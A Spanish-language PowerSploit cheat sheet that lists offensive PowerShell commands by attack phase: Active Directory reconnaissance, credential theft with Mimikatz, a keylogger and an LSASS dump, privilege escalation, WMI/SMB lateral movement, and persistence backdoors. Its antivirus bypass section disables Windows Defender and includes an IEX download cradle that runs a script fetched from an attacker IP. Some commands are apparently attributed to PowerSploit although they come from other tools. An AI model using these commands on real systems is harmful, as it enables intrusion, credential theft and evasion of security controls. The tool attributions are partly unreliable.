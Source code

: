 
# 🛠️ PowerSploit Cheat Sheet

## 🔎 Enumeración (Reconocimiento)

### Recon/Recon.ps1
- `Get-NetComputer` — Enumera todos los equipos del dominio.
- `Get-NetUser` — Lista los usuarios del dominio.
- `Get-NetGroup` — Lista grupos del dominio.
- `Get-NetGroupMember -GroupName "Domain Admins"` — Miembros del grupo "Domain Admins".
- `Get-NetDomainController` — Enumera los DCs.
- `Get-NetShare -ComputerName <hostname>` — Enumera recursos compartidos en un host.
- `Get-NetSession -ComputerName <hostname>` — Sesiones activas en el host.
- `Get-NetLoggedon -ComputerName <hostname>` — Usuarios logueados en el host.
- `Get-UserProperty -UserName <user>` — Atributos del usuario.
- `Invoke-UserHunter` — Busca usuarios con privilegios en máquinas específicas.
- `Invoke-StealthUserHunter` — Igual que el anterior pero con menor ruido.

---

## 🔐 Credential Access

### Exfiltration/Credentials
- `Invoke-Mimikatz` — Ejecuta Mimikatz desde PowerShell.
- `Invoke-CredentialInjection` — Inyecta credenciales en un proceso.
- `Invoke-TokenManipulation` — Manipula tokens.
- `Get-Keystrokes` — Keylogger por PowerShell.

---

## 🚀 Escalada de Privilegios

### Privesc/PowerUp.ps1
- `Invoke-AllChecks` — Ejecuta todos los chequeos de escalada.
- `Get-ServiceUnquoted` — Servicios con rutas sin comillas.
- `Get-ModifiableServiceFile` — Archivos de servicios modificables.
- `Get-RegAlwaysInstallElevated` — MSI con privilegios (bypass UAC).
- `Invoke-ServiceAbuse` — Automatiza explotación de servicios.
- `Get-ScheduledTask` — Lista tareas programadas.
- `Get-ProcessTokenPrivilege` — Lista privilegios de procesos.

---

## 🏃‍♂️ Movimiento Lateral

### CodeExecution/Invoke-Command/Invoke-WMICommand.ps1
- `Invoke-WMICommand -ComputerName <target> -Command "cmd.exe /c whoami"` — Ejecuta comandos vía WMI.
- `Invoke-SMBExec -Target <target>` — SMB Exec.
- `Invoke-PSRemoting` — PowerShell remoto (requiere WinRM).
- `Invoke-DllInjection` — Inyección de DLLs.

---

## 🧱 Persistencia y Backdoors

### Persistence/Persistence.ps1
- `New-LocalUserPersistenceOption` — Backdoor con cuenta local.
- `Install-ServiceBinary` — Reemplaza binario de un servicio.
- `Invoke-RegistryBackdoor` — Claves de registro persistentes.

---

## 📡 Pivoting & Port Forwarding

> PowerSploit no incluye directamente port forwarding.

Alternativas:
- `Invoke-ReflectivePEInjection` + herramientas como `plink.exe`.
- Usar `Invoke-Socat` o `Invoke-TcpTunnel` de otras fuentes.

---

## 🧩 Módulos Útiles Adicionales

- `Invoke-ReflectivePEInjection` — Carga binarios en memoria.
- `Invoke-Encode` — Codifica comandos en Base64.
- `Out-Minidump` — Saca minidump de LSASS.

---

## 🛡️ Bypass de Antivirus y AMSI

- `Invoke-Obfuscation` — Obfuscación de scripts.
- `Set-MpPreference -DisableRealtimeMonitoring $true` — Desactiva Defender.
- Cargar PowerSploit en memoria:
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('http://<attacker_ip>/PowerSploit.ps1')
  ```

---

## 📁 Referencia Rápida: Archivos de PowerSploit

| Carpeta                | Funcionalidad Principal               |
|------------------------|--------------------------------------|
| `Recon`                | Enumeración de red y dominio         |
| `Exfiltration`         | Robo de credenciales / información  |
| `Privesc`              | Escalada de privilegios              |
| `Persistence`          | Mantenimiento del acceso             |
| `CodeExecution`        | Ejecución remota                     |
| `AntivirusBypass`      | Evasión de AV/AMSI                   |

